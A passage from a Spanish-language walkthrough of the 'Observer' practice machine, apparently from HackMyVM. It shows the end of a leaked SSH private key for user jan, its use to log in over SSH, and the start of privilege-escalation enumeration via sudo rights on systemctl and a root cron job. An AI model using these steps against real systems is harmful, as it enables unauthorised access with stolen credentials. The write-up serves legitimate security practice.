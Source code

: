 ```sh
NkCnFoC0qz0G5Box7EOPENbPHaq6CDefWciYzy1yrADOdqUSlnGtS/TK1tBfgzZbwL4C6c
U+OPQBwGQPpFUAAAAMamFuQG9ic2VydmVyAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

Como estamos viendo, nos ha sacado el nombre de usuario **`jan`** y su clave privada de **`SSH`**, vamos a guardarla en un fichero y a utilizarla para acceder a la máquina:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Observer]
└─# chmod 600 jan.id_rsa
```

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Observer]
└─# ssh -i jan.id_rsa jan@192.168.1.113
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 31 14:28:53 2023 from 192.168.1.110
jan@observer:~$
```

¡Estupendo! Estamos dentro de la máquina como **`Jan`**.

### Subida de privilegios
Ahora que estamos dentro debemos conseguir el **control total** de la máquina, para ello comenzaremos por enumerar un poco la máquina. Vamos a ver qué comandos podemos realizar como **`Jan`**:

```sh
jan@observer:~$ sudo -l
Matching Defaults entries for jan on observer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jan may run the following commands on observer:
    (ALL) NOPASSWD: /usr/bin/systemctl -l status
```

Vemos que podemos ejecutar el binario **`systemctl`** con los argumentos "**`-l status`**" como si fuéramos **`root`** y sin necesidad de contraseña. Vamos a verlo:

```sh
● observer
    State: running
    Units: 235 loaded (incl. loaded aliases)
     Jobs: 0 queued
   Failed: 0 units
    Since: Fri 2023-09-01 14:54:17 CEST; 21min ago
  systemd: 252.12-1~deb12u1
   CGroup: /
           ├─init.scope
           │ └─1 /sbin/init
           ├─system.slice
           │ ├─cron.service
           │ │ ├─355 /usr/sbin/cron -f
           │ │ ├─366 /usr/sbin/CRON -f
           │ │ ├─381 /bin/sh -c /opt/observer
           │ │ └─388 /opt/observer
           │ ├─dbus.service
           │ │ └─[...]
```
